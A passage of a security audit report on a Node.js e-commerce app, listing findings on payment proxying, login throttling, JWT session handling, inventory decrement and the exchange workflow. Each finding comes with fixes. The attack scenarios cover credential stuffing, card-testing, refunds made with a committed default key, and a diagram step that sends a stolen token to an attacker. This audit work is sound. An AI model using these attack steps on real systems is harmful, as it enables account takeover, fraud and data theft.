### F-04 — Payment processor proxied on our public origin; raw PAN/CVV cross our nginx; published processor API key permits arbitrary refunds

**Severity: High** - Impact 5 (cardholder data exposure, PCI scope, unauthorised money movement) - Likelihood 4 - Complexity 5 (a single curl with a key copied from the repo)

**Evidence**
- `Node JS/web/nginx.conf:12-15` — our own edge proxies the processor:
  ```nginx
  location /fauxpay/ {
      proxy_pass http://fauxpay:4000/;
      proxy_set_header Host $host;
  }
  ```
- `Node JS/web/src/api/client.js:4,77-86` — the browser posts full card data to *our* origin, not the processor:
  ```js
  const FAUXPAY_BASE_URL = '/fauxpay';
  // ...
  const res = await fetch(FAUXPAY_BASE_URL + '/tokenize', { method: 'POST',
    body: JSON.stringify({ card_number, exp_month, exp_year, cvv }) });
  ```
- `Node JS/fauxpay/src/server.js:29-41` — `/tokenize` has **no** `requireApiKey`, no rate limit, and returns a token for any 13-19 digit string
- `Node JS/fauxpay/src/server.js:43,62` — `/charge` and `/refund` are gated only by a shared static bearer key
- `Node JS/fauxpay/src/server.js:4` — `const API_KEY = process.env.FAUXPAY_API_KEY || 'fauxpay_test_key';`
- `Node JS/docker-compose.yml:55` — `FAUXPAY_API_KEY: ${FAUXPAY_API_KEY:-fauxpay_test_key}` — the default is committed
- `Node JS/.env.example:12` — `FAUXPAY_API_KEY=fauxpay_test_key`
- `DESIGN.md:82` — the SPA never routes raw card data through the API; it goes browser to payment processor directly. `DESIGN.md:921` — the payment processor is not a container in this Compose stack

**Attack scenario.** Three compounding problems. First, the PCI scope-reduction argument rests on card data never touching our infrastructure; as built, every PAN, expiry and CVV is POSTed to our nginx (cleartext per F-03) and forwarded inside our network, putting our nginx, its host and its logs in PCI-DSS scope. Second, because nginx proxies `/fauxpay/` wholesale, the processor privileged endpoints are published on our public origin: an anonymous attacker who reads `.env.example` or `docker-compose.yml` obtains `fauxpay_test_key` and can call `POST http://host:8080/fauxpay/refund` and `/charge` directly, bypassing every application-layer control in `api` — no CS role check, no per-order refund ceiling from `cs.js:38-42`, no `refunds` audit row. Third, `/tokenize` is unauthenticated and unthrottled on a public path, making it a free card-validation oracle: an attacker submits stolen card numbers in bulk and uses the brand/last4 echo plus accept/reject behaviour to sift valid ones, with zero attribution.



**Root cause.** The external-processor trust boundary was collapsed into our own deployment and re-exposed through our own reverse proxy, and the processor server-to-server credential is a single static shared key distributed with a committed default value.

**Remediation — restore the direct browser-to-processor tokenization boundary and treat the processor credential as a server-only secret.**

1. **Delete the `/fauxpay/` proxy block** from `web/nginx.conf` (lines 12-15) and do not add it to the new `gateway` config. Nothing served by us should be able to reach the processor privileged endpoints on behalf of a browser.
2. Point tokenization at the processor own origin, configured at build time:
   ```js
   // web/src/api/client.js:4
   const FAUXPAY_BASE_URL = import.meta.env.VITE_FAUXPAY_PUBLIC_URL; // e.g. https://api.processor.example
   if (!FAUXPAY_BASE_URL) throw new Error('VITE_FAUXPAY_PUBLIC_URL is required');
   ```
   The processor serves its own TLS and CORS policy; card data then never enters our network. Prefer the stronger form: a **processor-hosted payment element / iframe** (Stripe Elements style), so the PAN fields are never in our DOM and cannot be read by script on our origin.
3. Split the credentials into a **publishable key** for `/tokenize` and a **secret key** for `/charge` and `/refund` (`fauxpay/src/server.js`):
   ```js
   const PUBLISHABLE_KEY = requireEnv('FAUXPAY_PUBLISHABLE_KEY');
   const SECRET_KEY      = requireEnv('FAUXPAY_SECRET_KEY');
   function requireEnv(n) { const v = process.env[n]; if (!v) { console.error('FATAL: ' + n + ' required'); process.exit(1); } return v; }

   function requireKey(expected) {
     return (req, res, next) => {
       const h = req.headers.authorization || '';
       const k = h.startsWith('Bearer ') ? h.slice(7) : '';
       const a = Buffer.from(k), b = Buffer.from(expected);
       if (a.length !== b.length || !crypto.timingSafeEqual(a, b)) {
         return res.status(401).json({ error: 'Invalid FauxPay API key' });
       }
       next();
     };
   }
   app.post('/tokenize', requireKey(PUBLISHABLE_KEY), /* handler */);
   app.post('/charge',   requireKey(SECRET_KEY),      /* handler */);
   app.post('/refund',   requireKey(SECRET_KEY),      /* handler */);
   ```
   This also removes the non-constant-time comparison at `fauxpay/src/server.js:17`.
4. Remove the `:-fauxpay_test_key` fallback from `docker-compose.yml:55` and blank the value in `.env.example:12`, so a missing key is a hard startup failure rather than a silent well-known default.
5. Add per-IP rate limiting and a velocity cap on `/tokenize` at the processor edge to defeat card-testing.

Why this closes the gap: removing the proxy means our origin has no route to `/charge` or `/refund` at all, so the only way to move money is through the role-checked, ceiling-checked, audited handler in `api`; and separating publishable from secret keys means the credential the browser must be able to use cannot authorise a refund.

**Mappings.** OWASP Top 10 A05:2021, A02:2021, A01:2021 - OWASP API Top 10 API8:2023, API5:2023 Broken Function Level Authorization, API6:2023 Unrestricted Access to Sensitive Business Flows, API10:2023 Unsafe Consumption of APIs - ASVS v5.0 V4.1 (access control at a trusted enforcement point), V6.4, V9.1, V13.2 - PCI-DSS v4.0 req. 3 and 4
**STRIDE.** Information Disclosure, Tampering, Elevation of Privilege, Repudiation, Denial of Service

---

### F-05 — No rate limiting and no account lockout on authentication endpoints

**Severity: High** - Impact 4 (mass account compromise) - Likelihood 5 (credential stuffing is fully automated and universal) - Complexity 5 (off-the-shelf tools, no skill, unauthenticated)

**Evidence**
- `Node JS/api/src/routes/auth.js:37-53` — the whole login handler; no counter, no delay, no lockout:
  ```js
  const user = await db('users').where({ email }).first();
  if (!user || !(await bcrypt.compare(password, user.password_hash))) {
    return res.status(401).json({ error: 'Invalid email or password' });
  }
  ```
- `Node JS/api/src/db/migrations/20260101000001_create_users.js:2-9` — the `users` table has **no** `failed_login_attempts` and **no** `locked_until` column, despite `DESIGN.md:143` and the 5.1 ER diagram specifying both
- `Node JS/api/src/app.js:14-19` — no rate-limit middleware anywhere in the chain
- `Node JS/web/nginx.conf` — no `limit_req_zone` / `limit_req`
- `Node JS/api/package.json:12-21` — no rate-limiting dependency is even installed
- `DESIGN.md:894` — an account is temporarily locked out after a configured number of consecutive failed login attempts

**Attack scenario.** Both layers the design specified — edge rate limiting (3.3) and per-account lockout (7.1c) — are absent, so `POST /api/auth/login` accepts unlimited guesses at whatever rate the host sustains. The practical exploit is credential stuffing against breach corpora, which reliably yields a percentage of consumer accounts; it also makes any weak staff password brute-forceable, including a seeded fixture credential left in place in a demo or staging environment (section 4, retired F-02). `POST /api/auth/register` is equally unthrottled, permitting mass account creation (amplifying F-07) and, combined with the distinguishable `409 An account with that email already exists` at `auth.js:22`, gives an unthrottled user-enumeration oracle for building a target list before stuffing.

```mermaid
sequenceDiagram
    actor A as Attacker (script)
    participant N as nginx :8080 (no limit_req)
    participant API as api:3000 (no limiter, no lockout)
    participant DB as postgres
    loop enumerate targets — unlimited
        A->>N: POST /api/auth/register {email: candidate}
        API-->>A: 409 already exists (hit) or 201 (miss)
    end
    loop stuff credentials — unlimited, no lockout ever set
        A->>N: POST /api/auth/login {email: known, password: leaked_pw_n}
        API->>DB: SELECT user by email
        API-->>A: 401 (retry) ... eventually 200 {token}
    end
    A->>N: GET /api/users/me + Bearer stolen
    API-->>A: 200 — account takeover; 12h token, unrevocable (F-06)
```

**Root cause.** Neither of the two designed anti-automation controls was implemented, and the schema meant to back lockout was never migrated.

**Remediation — layered anti-automation: edge per-IP `limit_req` (F-03 step 1) plus per-account progressive lockout backed by the designed schema, and a uniform register response.**

1. Add the designed columns:
   ```js
   // migrations/20260101000011_add_login_throttle.js
   exports.up = (knex) => knex.schema.alterTable('users', (t) => {
     t.integer('failed_login_attempts').notNullable().defaultTo(0);
     t.timestamp('locked_until').nullable();
   });
   ```
2. Replace `routes/auth.js:37-53` with the 7.1c algorithm, checking the lock *before* verifying the password:
   ```js
   const MAX_ATTEMPTS = 5;
   const LOCK_MINUTES = 15;

   router.post('/login', asyncHandler(async (req, res) => {
     const { email, password } = req.body || {};
     if (!email || !password) return res.status(400).json({ error: 'email and password are required' });

     const user = await db('users').where({ email }).first();

     // Constant-ish work whether or not the account exists (removes the timing signal).
     const hash = user ? user.password_hash
       : '$2a$10$invalidinvalidinvalidinvalidinvalidinvalidinvalidinvalidinv';

     if (user && user.locked_until && new Date(user.locked_until) > new Date()) {
       return res.status(423).json({ error: 'Account temporarily locked, try again later' });
     }

     const ok = await bcrypt.compare(password, hash);
     if (!user || !ok) {
       if (user) {
         const attempts = user.failed_login_attempts + 1;
         const patch = { failed_login_attempts: attempts };
         if (attempts >= MAX_ATTEMPTS) {
           patch.locked_until = new Date(Date.now() + LOCK_MINUTES * 60000);
           patch.failed_login_attempts = 0;
         }
         await db('users').where({ id: user.id }).update(patch);
         if (patch.locked_until) {
           return res.status(423).json({ error: 'Account temporarily locked, try again later' });
         }
       }
       return res.status(401).json({ error: 'Invalid email or password' });
     }

     await db('users').where({ id: user.id })
       .update({ failed_login_attempts: 0, locked_until: null });
     // ... issue tokens (see F-06)
   }));
   ```
3. Add an application-layer limiter as defence in depth (`api/src/app.js`, after `app.set('trust proxy', 1)`):
   ```js
   const rateLimit = require('express-rate-limit'); // add to api/package.json
   app.use('/api/auth', rateLimit({
     windowMs: 15 * 60000, max: 20, standardHeaders: true, legacyHeaders: false,
     message: { error: 'Too many requests, please try again later' },
   }));
   ```
4. Close the enumeration oracle: make `POST /api/auth/register` return the same `202 Accepted` body whether or not the email is taken, and deliver the already-registered notice by email instead of in the HTTP response (replacing the `409` at `auth.js:20-23`). This is the same uniform-response pattern the design already mandates for forgot-password (`DESIGN.md:363`).

Why this closes the gap: the per-IP limiter caps aggregate attack throughput while the per-account lockout caps guesses against any single high-value target, so a distributed low-per-IP stuffing campaign still cannot grind one admin account; and the uniform register response removes the free target list that makes stuffing efficient.

**Mappings.** OWASP Top 10 A07:2021, A04:2021 - OWASP API Top 10 API2:2023, API4:2023 Unrestricted Resource Consumption - ASVS v5.0 V2.2.1 (anti-automation), V2.2.2 (lockout), V2.1 - NIST SP 800-63B 5.2.2 (rate limiting), 5.1.1.2
**STRIDE.** Spoofing, Elevation of Privilege, Denial of Service

---

### F-06 — Entire session design missing: 12-hour JWT in `localStorage`, no refresh, no rotation, no revocation, no working logout

**Severity: High** - Impact 4 - Likelihood 4 - Complexity 4

**Evidence**
- `Node JS/web/src/api/client.js:6` — `let authToken = localStorage.getItem('token');`
- `Node JS/web/src/api/client.js:8-15` — `setToken()` writes the JWT to `localStorage`, exactly the store `DESIGN.md:94` forbids (never written to `localStorage`, `sessionStorage`, or any other persistent client-side store)
- `Node JS/api/src/routes/auth.js:33,48` — `{ expiresIn: '12h' }` against a designed 15 minutes
- No `refresh_tokens` migration exists — `api/src/db/migrations/` contains only users, addresses, categories, widgets, carts, orders, payments, refunds_exchanges, reviews — so the table backing every revocation guarantee in `DESIGN.md:98,144` was never created
- No `POST /api/auth/refresh`, no rotation, no reuse detection: `api/src/routes/auth.js` is 55 lines and contains only `register` and `login`
- `Node JS/web/src/api/client.js:38` — `logout` calls `/auth/logout`, a route that does not exist; `Node JS/web/src/AuthContext.jsx:30-33` clears client state only:
  ```js
  function logout() { setToken(null); setUser(null); }
  ```
- `Node JS/api/src/app.js:18` — `cookieParser()` is mounted but no cookie is ever set or read; the designed refresh cookie is vestigial
- `Node JS/api/src/middleware/auth.js:11` — statelessly trusts the token; no denylist, no `jti`, no session table

**Attack scenario.** The design token-theft mitigation was replaced with its stated anti-pattern. A 12-hour JWT containing `role` sits in `localStorage`, readable by any script on the origin (and there is no CSP to constrain script — F-10), so any XSS or malicious dependency exfiltrates a credential that works from anywhere for twelve hours. Because no `refresh_tokens` table exists, **no server-side revocation of any kind is possible**: logging out only deletes the local copy, so a token captured beforehand (F-03 sniffing, a shared browser, or XSS) remains valid until natural expiry. The same gap breaks privilege revocation — `PATCH /api/admin/users/:id/role` (`admin.js:70-78`) demoting a rogue admin has no effect for up to 12 hours, because `requireRole` reads `role` from the token (`auth.js:20`) and never re-reads the database. There is likewise no way to terminate sessions after a password compromise, the guarantee `DESIGN.md:366` and `:372` both depend on.

```mermaid
sequenceDiagram
    actor A as Attacker
    participant V as Victim browser (SPA)
    participant N as nginx :8080
    participant API as api:3000
    Note over V: JWT persisted in localStorage, 12h, contains role
    A->>V: injected or third-party script (no CSP to stop it — F-10)
    V->>A: fetch(attacker, {t: localStorage.getItem('token')})
    A->>N: GET /api/users/me + Bearer stolen
    API-->>A: 200 — victim session, no binding to device or IP
    V->>V: user clicks Log out
    V->>N: POST /api/auth/logout
    API-->>V: 404 (route does not exist)
    Note over V: only the local copy is cleared
    A->>N: POST /api/orders + Bearer stolen (hours later)
    API-->>A: 201 — still valid; nothing server-side can revoke it
```

**Root cause.** Authentication state is entirely stateless and client-persisted, with no server-side session record, so neither exposure duration nor revocation can be controlled after issuance.

**Remediation — implement the designed split short-lived in-memory access token plus rotating opaque HttpOnly refresh-token cookie with reuse detection.**

1. Create the missing table:
   ```js
   // migrations/20260101000012_create_refresh_tokens.js
   exports.up = (knex) => knex.schema.createTable('refresh_tokens', (t) => {
     t.increments('id').primary();
     t.integer('user_id').unsigned().notNullable()
       .references('id').inTable('users').onDelete('CASCADE');
     t.string('token_hash').notNullable().unique();
     t.integer('replaced_by').unsigned().nullable().references('id').inTable('refresh_tokens');
     t.timestamp('expires_at').notNullable();
     t.timestamp('revoked_at').nullable();
     t.timestamp('created_at').defaultTo(knex.fn.now());
     t.index(['user_id']);
   });
   ```
2. Add a session module (`api/src/services/sessions.js`):
   ```js
   const crypto = require('crypto');
   const jwt = require('jsonwebtoken');
   const db = require('../db/connection');
   const { JWT_SECRET } = require('../middleware/auth');

   const ACCESS_TTL = '15m';
   const REFRESH_TTL_MS = 30 * 24 * 60 * 60 * 1000;
   const sha = (v) => crypto.createHash('sha256').update(v).digest('hex');

   const COOKIE_OPTS = {
     httpOnly: true,
     secure: true,          // requires the TLS gateway from F-03
     sameSite: 'strict',
     path: '/api/auth',     // cookie is only ever sent to the refresh and logout routes
     maxAge: REFRESH_TTL_MS,
   };

   function accessToken(user) {
     return jwt.sign({ sub: user.id, email: user.email, role: user.role }, JWT_SECRET,
       { expiresIn: ACCESS_TTL, algorithm: 'HS256',
         issuer: 'widgetshop-api', audience: 'widgetshop-web' });
   }

   async function issueSession(res, user, trx = db) {
     const raw = crypto.randomBytes(32).toString('base64url');
     const [row] = await trx('refresh_tokens')
       .insert({ user_id: user.id, token_hash: sha(raw),
                 expires_at: new Date(Date.now() + REFRESH_TTL_MS) })
       .returning('id');
     res.cookie('refresh_token', raw, COOKIE_OPTS);
     return { token: accessToken(user), refreshId: row.id ?? row };
   }

   async function rotate(res, raw) {
     return db.transaction(async (trx) => {
       const row = await trx('refresh_tokens').where({ token_hash: sha(raw) }).forUpdate().first();
       if (!row || new Date(row.expires_at) < new Date()) return null;
       if (row.revoked_at) {
         // Reuse of a rotated-out token means theft: revoke the whole family.
         await trx('refresh_tokens').where({ user_id: row.user_id }).whereNull('revoked_at')
           .update({ revoked_at: trx.fn.now() });
         return null;
       }
       const user = await trx('users').where({ id: row.user_id })
         .select('id', 'email', 'role').first();   // role re-read from DB, not the old token
       if (!user) return null;
       const next = await issueSession(res, user, trx);
       await trx('refresh_tokens').where({ id: row.id })
         .update({ revoked_at: trx.fn.now(), replaced_by: next.refreshId });
       return next;
     });
   }

   async function revokeAll(userId, exceptId = null) {
     const q = db('refresh_tokens').where({ user_id: userId }).whereNull('revoked_at');
     if (exceptId) q.andWhereNot({ id: exceptId });
     return q.update({ revoked_at: db.fn.now() });
   }

   module.exports = { issueSession, rotate, revokeAll, COOKIE_OPTS };
   ```
3. Add the routes, with the design custom-header CSRF requirement on cookie-authenticated endpoints (`DESIGN.md:97`):
   ```js
   // api/src/routes/auth.js
   const { issueSession, rotate, revokeAll, COOKIE_OPTS } = require('../services/sessions');

   function requireFetchHeader(req, res, next) {
     if (req.get('X-Requested-With') !== 'widgetshop-spa') {
       return res.status(403).json({ error: 'Missing required request header' });
     }
     next();
   }

   router.post('/refresh', requireFetchHeader, asyncHandler(async (req, res) => {
     const raw = req.cookies && req.cookies.refresh_token;
     if (!raw) return res.status(401).json({ error: 'Not authenticated' });
     const next = await rotate(res, raw);
     if (!next) {
       res.clearCookie('refresh_token', COOKIE_OPTS);
       return res.status(401).json({ error: 'Session expired' });
     }
     res.json({ token: next.token });
   }));

   router.post('/logout', requireFetchHeader, asyncHandler(async (req, res) => {
     const raw = req.cookies && req.cookies.refresh_token;
     if (raw) {
       const hash = require('crypto').createHash('sha256').update(raw).digest('hex');
       const row = await db('refresh_tokens').where({ token_hash: hash }).first();
       if (row) await revokeAll(row.user_id);   // terminate every session for this user
     }
     res.clearCookie('refresh_token', COOKIE_OPTS);
     res.status(204).end();
   }));
   ```
   and in `register` and `login`, replace the bare `jwt.sign(...)` call with `const { token } = await issueSession(res, user);`.
4. Stop persisting the access token in the SPA (`web/src/api/client.js:6-15`):
   ```js
   let authToken = null;               // in-memory only; dies with the tab

   export function setToken(t) { authToken = t; }

   async function request(path, { method = 'GET', body, _retry = false } = {}) {
     const headers = { 'Content-Type': 'application/json', 'X-Requested-With': 'widgetshop-spa' };
     if (authToken) headers.Authorization = 'Bearer ' + authToken;
     const res = await fetch('/api' + path, { method, headers, credentials: 'include',
       body: body ? JSON.stringify(body) : undefined });
     if (res.status === 401 && !_retry && path !== '/auth/refresh') {
       const r = await fetch('/api/auth/refresh', { method: 'POST', credentials: 'include',
         headers: { 'X-Requested-With': 'widgetshop-spa' } });
       if (r.ok) { setToken((await r.json()).token); return request(path, { method, body, _retry: true }); }
       setToken(null);
     }
     const data = res.status === 204 ? null : await res.json().catch(() => null);
     if (!res.ok) throw new Error((data && data.error) || ('Request failed with status ' + res.status));
     return data;
   }
   ```
   Session continuity across reloads now comes from the silent refresh (the existing `api.me()` bootstrap in `AuthContext.jsx` triggers it automatically), not from persisting a credential where script can read it.
5. Call `revokeAll(userId)` from the password-reset and change-password handlers added in F-09, and from `PATCH /api/admin/users/:id/role`, so a demotion takes effect within 15 minutes rather than 12 hours.

Why this closes the gap: the only long-lived credential becomes an opaque value that script cannot read (HttpOnly) and that is single-use (rotation), so stealing it either fails or trips reuse detection and kills the family; and the access token blast radius shrinks from 12 hours to 15 minutes with the role re-read from the database on every rotation.

**Mappings.** OWASP Top 10 A07:2021, A04:2021, A01:2021 - OWASP API Top 10 API2:2023 - ASVS v5.0 V3.2 (session binding), V3.3 (termination/timeout), V3.4 (cookie-based sessions), V3.5 (token-based), V7.1 - NIST SP 800-63B 7.1 (reauthentication), 7.2 (session bindings)
**STRIDE.** Spoofing, Elevation of Privilege, Information Disclosure, Repudiation

---

### F-07 — Stock decremented before payment authorization and never restored on failure: denial of inventory

**Severity: High** - Impact 4 (all sellable inventory reduced to zero; direct revenue loss) - Likelihood 4 (cheap, repeatable, attractive to competitors) - Complexity 5 (register an account, add to cart, post a garbage card_token — no card and no skill required)

**Evidence** — `Node JS/api/src/routes/orders.js:47-74`:
```js
const order = await db.transaction(async (trx) => {
  const [orderRow] = await trx('orders').insert({ /* status: pending_payment */ }).returning('id');
  await trx('order_items').insert(lineItems.map((li) => ({ ...li, order_id: orderId })));
  for (const li of lineItems) {
    await trx('widgets').where({ id: li.widget_id }).decrement('stock_quantity', li.quantity); // line 62
  }
  return { id: orderId };
});

let chargeResult;
try {
  chargeResult = await fauxpay.charge({ cardToken: card_token, amountCents: totalCents, orderId: order.id }); // 70
} catch (err) {
  await db('orders').where({ id: order.id }).update({ status: 'cancelled' });  // line 72 — no restock
  return res.status(payErrorStatus(err)).json({ error: 'Payment failed' });
}
```
The compensating action at line 72 updates only `orders.status`; the `widgets.stock_quantity` decrement from line 62 is already committed and is never reversed. Guaranteed-failure path: `Node JS/fauxpay/src/server.js:45-46` returns `400 Unknown card_token` for any token never issued, which `payErrorStatus` (`orders.js:96-98`) maps to 402. `DESIGN.md:401-402` specifies the correct ordering — decrement stock only on success, and on failure mark the order cancelled with the cart preserved.

**Attack scenario.** A customer-level attacker inverts the designed order of operations into a free inventory-destruction primitive. They read `stock_quantity` from the public `GET /api/widgets` (`catalog.js:13` returns it), add exactly that quantity of each widget to the cart (`POST /api/cart/items` has no per-item ceiling — `cart.js:39-57`), then `POST /api/orders` with a bogus `card_token`. The stock check at `orders.js:36` passes, the decrement at line 62 commits, the charge fails deterministically, and the widget is now permanently at `stock_quantity: 0` — rendered Out of stock with the add-to-cart button disabled (`web/src/pages/WidgetDetail.jsx:110-117`). No payment instrument and no risk of being charged is involved. Repeating across the catalog takes the shop offline for sales; unthrottled registration (F-05) lets the attacker rotate accounts to evade per-user heuristics.

Secondary integrity problem: `orders.js:47-66` is transactional but lines 76-90 (payment insert, status update, cart clear) are not, so a crash between line 70 and line 89 leaves a charged customer with a `pending_payment` order, decremented stock and an intact cart, inviting a double purchase.

```mermaid
sequenceDiagram
    actor A as Attacker (self-registered customer)
    participant N as nginx :8080
    participant API as api:3000
    participant DB as postgres
    participant F as fauxpay
    A->>N: GET /api/widgets
    API-->>A: [{id:2, name:"Deluxe Widget", stock_quantity:50}]
    A->>N: POST /api/cart/items {widget_id:2, quantity:50}
    API-->>A: 201
    A->>N: POST /api/orders {shipping_address_id, card_token:"tok_fake"}
    API->>DB: BEGIN; INSERT orders/order_items; decrement stock 50 to 0; COMMIT
    API->>F: POST /charge {card_token:"tok_fake"}
    F-->>API: 400 Unknown card_token
    API->>DB: UPDATE orders SET status='cancelled'   (stock NOT restored)
    API-->>A: 402 Payment failed
    Note over DB: Deluxe Widget permanently stock_quantity = 0
    loop repeat per widget and per throwaway account
        A->>N: same sequence
    end
```

**Root cause.** Inventory is committed as an irreversible side effect before the external authorization it depends on, and the failure path implements only a partial compensating transaction — there is no reservation concept and no saga rollback.

**Remediation — replace the premature decrement with the reserve-then-capture (inventory reservation) pattern.**

Minimal, immediately deployable version — make the compensating transaction complete and the decrement atomic:
```js
// api/src/routes/orders.js — replace lines 47-74
const order = await db.transaction(async (trx) => {
  const [orderRow] = await trx('orders').insert({
    user_id: userId, status: 'pending_payment',
    subtotal_cents: totalCents, total_cents: totalCents, shipping_address_id,
  }).returning('id');
  const orderId = orderRow.id ?? orderRow;

  await trx('order_items').insert(lineItems.map((li) => ({ ...li, order_id: orderId })));

  for (const li of lineItems) {
    // Conditional decrement: atomically rejects oversell under concurrency.
    const affected = await trx('widgets')
      .where({ id: li.widget_id })
      .andWhere('stock_quantity', '>=', li.quantity)
      .decrement('stock_quantity', li.quantity);
    if (!affected) {
      throw Object.assign(new Error('insufficient_stock'), { httpStatus: 409, widgetId: li.widget_id });
    }
  }
  return { id: orderId };
});

let chargeResult;
try {
  chargeResult = await fauxpay.charge({
    cardToken: card_token, amountCents: totalCents, orderId: order.id,
    idempotencyKey: 'order-' + order.id,   // see F-12
  });
} catch (err) {
  // COMPLETE compensating transaction: cancel the order AND release the inventory.
  await db.transaction(async (trx) => {
    await trx('orders').where({ id: order.id }).update({ status: 'cancelled' });
    for (const li of lineItems) {
      await trx('widgets').where({ id: li.widget_id }).increment('stock_quantity', li.quantity);
    }
  });
  return res.status(payErrorStatus(err)).json({ error: 'Payment failed' });
}

// Make the success path atomic too, so no partial state can survive a crash.
await db.transaction(async (trx) => {
  const [paymentRow] = await trx('payments').insert({
    order_id: order.id,
    processor_transaction_id: chargeResult.transaction_id,
    processor_card_token: card_token,
    amount_cents: totalCents, status: 'captured',
    card_last4: chargeResult.last4, card_brand: chargeResult.brand,
  }).returning('id');
  await trx('orders').where({ id: order.id })
    .update({ status: 'paid', payment_id: paymentRow.id ?? paymentRow });
  await trx('cart_items').where({ cart_id: cart.id }).del();
});
```
Also add the `insufficient_stock` branch to the error handler in `app.js` so it returns 409 rather than 500, and cap per-line quantity in `cart.js:42` to bound the damage of any single request.

Stronger target state — a true reservation table plus a sweeper, removing the dependency on the request surviving long enough to run the compensation:
```js
// migrations/20260101000013_create_stock_reservations.js
exports.up = (knex) => knex.schema.createTable('stock_reservations', (t) => {
  t.increments('id').primary();
  t.integer('order_id').unsigned().notNullable().references('id').inTable('orders').onDelete('CASCADE');
  t.integer('widget_id').unsigned().notNullable().references('id').inTable('widgets');
  t.integer('quantity').notNullable();
  t.enu('state', ['held', 'captured', 'released']).notNullable().defaultTo('held');
  t.timestamp('expires_at').notNullable();   // e.g. now + 10 minutes
  t.index(['state', 'expires_at']);
});
```
with available stock computed as `widgets.stock_quantity` minus the sum of held reservations, and a periodic job releasing rows past `expires_at`. Why this closes the gap: a lease that expires on its own means an abandoned or failed checkout cannot permanently consume inventory even if the API process dies mid-flight, so the attack has no lasting effect rather than relying on a best-effort rollback.

**Mappings.** OWASP Top 10 A04:2021 Insecure Design, A05:2021 - OWASP API Top 10 API6:2023 Unrestricted Access to Sensitive Business Flows, API4:2023 Unrestricted Resource Consumption - ASVS v5.0 V11.1.1-V11.1.4 (business logic: sequential processing, realistic limits, integrity of business-logic flows) - CWE-841, CWE-662
**STRIDE.** Denial of Service, Tampering

---

### F-08 — Exchange flow: no order-membership validation, no financial settlement, skippable workflow states

**Severity: Medium** - Impact 4 (unbounded free merchandise, corrupted order state) - Likelihood 3 (requires staff credentials, obtainable via F-01) - Complexity 3 (two crafted JSON requests once authenticated)

**Evidence** — `Node JS/api/src/routes/cs.js:71-91`:
```js
router.post('/orders/:id/exchanges', asyncHandler(async (req, res) => {
  const { returned_widget_id, returned_quantity, replacement_widget_id, replacement_quantity, notes } = req.body || {};
  const order = await db('orders').where({ id: req.params.id }).first();
  if (!order) return res.status(404).json({ error: 'Order not found' });
  const [row] = await db('exchanges').insert({
    order_id: order.id, processed_by: req.user.sub,
    returned_widget_id, returned_quantity,
    replacement_widget_id, replacement_quantity,
    status: 'requested', notes,
  }).returning('id');
```
and `Node JS/api/src/routes/cs.js:93-114`:
```js
const updates = { updated_at: db.fn.now() };
if (status) updates.status = status;
// ...
if (status === 'completed') {
  await db('orders').where({ id: exchange.order_id }).update({ status: 'exchanged' });
} else if (status === 'rejected') {
  await db('orders').where({ id: exchange.order_id }).update({ status: 'paid' });
}
```

Missing checks, each against an explicit design statement:
- No verification that `returned_widget_id` appears in `order_items` for this order (`DESIGN.md:418` — specifying returned items from *that* order)
- No verification that `returned_quantity` is within the purchased quantity
- No bound on `replacement_quantity`, and no stock check or decrement for the replacement
- No price-difference settlement — `DESIGN.md:420` requires a partial refund or an additional charge; no `fauxpay.refund` / `fauxpay.charge` call appears anywhere in the exchange handlers (contrast the refund handler at `cs.js:46`)
- No state-machine guard: `requested` to `completed` is accepted directly, skipping `received` (`DESIGN.md:419`)
- No order-status precondition: an exchange can be opened on a `pending_payment` or `cancelled` order, and `status:'rejected'` unconditionally writes `orders.status='paid'`, so a `refunded` order can be flipped back to `paid`
- No check for an existing open exchange, so multiple concurrent exchanges can be stacked

**Attack scenario.** Any actor holding a `customer_service` token can manufacture merchandise. They `POST /api/cs/orders/17/exchanges` with `returned_widget_id` set to the cheap item actually purchased (or to any widget id at all — nothing ties it to the order) and `replacement_widget_id` set to the most expensive widget in the catalog with `replacement_quantity: 25`, then immediately `PATCH /api/cs/exchanges/:id` with `status: completed`. The order is marked `exchanged`, the exchange is `completed` with no return ever received and no price difference collected. Because the record is created by the actor who benefits and there is no second-party approval or reconciliation, the only trace is `processed_by` — which is why the missing settlement matters: the books balance only if someone notices. The `rejected` transition additionally lets a `refunded` order be laundered back to `paid`, concealing a prior refund from the Admin all-orders view (`admin.js:65-68`).

```mermaid
sequenceDiagram
    actor CS as Actor with customer_service token (F-01)
    participant API as api:3000
    participant DB as postgres
    CS->>API: GET /api/cs/orders?email=@
    API-->>CS: all orders (F-11) — pick order 17 (a 9.99 Standard Widget)
    CS->>API: POST /api/cs/orders/17/exchanges<br/>{returned_widget_id:1, returned_quantity:1,<br/>replacement_widget_id:2, replacement_quantity:25}
    Note over API: no check that widget 1 is in order 17;<br/>no check on replacement qty, price or stock
    API->>DB: INSERT exchanges (status='requested')
    API->>DB: UPDATE orders SET status='exchange_pending'
    API-->>CS: 201
    CS->>API: PATCH /api/cs/exchanges/9 {status:"completed"}
    Note over API: received state skipped — no return ever arrives;<br/>no refund or charge for the price difference
    API->>DB: UPDATE exchanges SET status='completed'
    API->>DB: UPDATE orders SET status='exchanged'
    API-->>CS: 200 — 25 Deluxe Widgets owed against a 9.99 order
```

**Root cause.** The exchange handlers persist client-supplied references and quantities without validating them against the authoritative order, enforce no state machine over the workflow, and omit the settlement step that makes the transaction financially neutral.

**Remediation — enforce server-side validation of the returned item against the order's own `order_items`, an explicit workflow state machine, and mandatory price-difference settlement (validated-beneficiary plus ordered-workflow pattern).**

```js
// api/src/routes/cs.js — replace lines 71-91
const VALID_FOR_EXCHANGE = ['paid', 'partially_refunded'];

router.post('/orders/:id/exchanges', asyncHandler(async (req, res) => {
  const { returned_widget_id, returned_quantity, replacement_widget_id,
          replacement_quantity, notes } = req.body || {};

  if (!Number.isInteger(returned_quantity) || returned_quantity < 1 ||
      !Number.isInteger(replacement_quantity) || replacement_quantity < 1) {
    return res.status(400).json({ error: 'quantities must be positive integers' });
  }

  const order = await db('orders').where({ id: req.params.id }).first();
  if (!order) return res.status(404).json({ error: 'Order not found' });
  if (!VALID_FOR_EXCHANGE.includes(order.status)) {
    return res.status(409).json({ error: 'Cannot exchange an order in status ' + order.status });
  }

  // The returned item MUST be something this order actually contains.
  const purchased = await db('order_items')
    .where({ order_id: order.id, widget_id: returned_widget_id }).first();
  if (!purchased) {
    return res.status(400).json({ error: 'Returned item is not part of this order' });
  }

  // Cannot return more than was bought, net of prior exchanges.
  const prior = await db('exchanges')
    .where({ order_id: order.id, returned_widget_id })
    .whereIn('status', ['requested', 'received', 'completed'])
    .sum('returned_quantity as q').first();
  if (Number(prior.q || 0) + returned_quantity > purchased.quantity) {
    return res.status(400).json({ error: 'Returned quantity exceeds quantity purchased' });
